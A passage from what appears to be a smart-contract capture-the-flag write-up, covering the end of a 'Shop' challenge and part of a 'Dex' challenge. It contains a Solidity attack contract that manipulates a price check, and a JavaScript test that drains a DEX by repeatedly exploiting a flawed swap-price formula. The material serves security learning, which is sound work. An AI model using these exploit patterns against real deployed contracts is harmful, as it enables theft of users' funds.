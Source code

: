 The key here is to use the challenge contract's `isSold()` function (for all public variables, it will automatically setup a getter function). We can write a if-statement to select our return value depending on whether `isSold()` is true for false.

```sol
contract ShopAttack {

  IShop challenge;

  constructor(address addr) {
    challenge = IShop(addr);
  }

  function price() external view returns (uint) {
    return challenge.isSold() ? 0 : 100;
  }

  function attack() public {
    challenge.buy();
  }

}
```

### 22. Dex

This challenge implements a simple DEX swap functionality. The issue lies within the `getSwapPrice()` function, which inaccurately computes the swap amount. DEXes employ an AMM (Automated market-making) formula `x * y = K`, implying that the product of the two token amounts remains constant. However, the formula used in this challenge results in the DEX dispensing an excessive amount of to tokens to the user. Therefore, our attack vector would be to conduct swaps repeatedly until one of the tokens is completely drained.

```js
it("Solves 22-Dex", async function () {
  // ...
  // Approve dex to spend all our tokens.
  await challenge.approve(await challenge.getAddress(), 1000000);
  // Swap a few times then we can have enough tokens to drain the DEX.
  // user token1 = 0n
  // user token2 = 20n
  // user token1 = 24n
  // user token2 = 0n
  // user token1 = 0n
  // user token2 = 30n
  // user token1 = 41n
  // user token2 = 0n
  // user token1 = 0n
  // user token2 = 65n
  // Dex token1 = 110n
  // Dex token2 = 45n
  for (let i = 0; i < 2; ++i) {
    await challenge.swap(token1, token2, await challenge.balanceOf(token1, address));
    // console.log("user token1 =", await challenge.balanceOf(token1, address));
    // console.log("user token2 =", await challenge.balanceOf(token2, address));
    await challenge.swap(token2, token1, await challenge.balanceOf(token2, address));
    // console.log("user token1 =", await challenge.balanceOf(token1, address));
    // console.log("user token2 =", await challenge.balanceOf(token2, address));
  }
  await challenge.swap(token1, token2, await challenge.balanceOf(token1, address));
  // console.log("user token1 =", await challenge.balanceOf(token1, address));
  // console.log("user token2 =", await challenge.balanceOf(token2, address));
  const token1Remaining = await challenge.balanceOf(token1, await challenge.getAddress());
  const token2Remaining = await challenge.balanceOf(token2, await challenge.getAddress());
  // console.log("Dex token1 =", token1Remaining);
```